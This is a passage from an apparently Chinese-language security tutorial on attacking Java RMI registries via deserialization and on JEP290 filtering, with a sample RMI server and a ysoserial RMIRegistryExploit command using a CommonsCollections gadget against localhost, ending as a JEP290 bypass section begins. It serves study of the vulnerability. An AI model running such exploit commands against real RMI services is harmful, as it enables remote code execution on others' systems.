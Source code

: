 服务端

```
package RMIunser;

import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

public class Server {
    public static String HOST = "127.0.0.1";
    public static int PORT = 1099;
    public static String RMI_PATH = "/hello";
    public static final String RMI_NAME = "rmi://" + HOST + ":" + PORT + RMI_PATH;

    public static void main(String[] args) {
        try {
            // 注册RMI端口
            LocateRegistry.createRegistry(PORT);
            // 创建一个服务
            Hello hello = new HelloImpl();
            // 服务命名绑定
            Naming.rebind(RMI_NAME, hello);

            System.out.println("启动RMI服务在" + RMI_NAME);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

用8u121以后的版本，客户端yso发包用CC6打一下打一下试试

```
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 1099 CommonsCollections calc
```

![image-20220412232221185](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220412232221185.png)

返回了REJECTED被拦截了，这里虽然8u201用CC1是打不通的，但是报错可以看到是被拦截了

![image-20220412232329381](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220412232329381.png)

从服务端也可以看到拦截了下来

但是当攻击客户端的时候，JEP290是不会起作用的

# JEP290 Bypass

既然是白名单，绕过方式可想而知，就是从白名单里面去寻找可以反序列化的Gadget

其实这里和JRMP服务端攻击客户端的方式有点像

之前是通过ysoserial起一个恶意的服务端
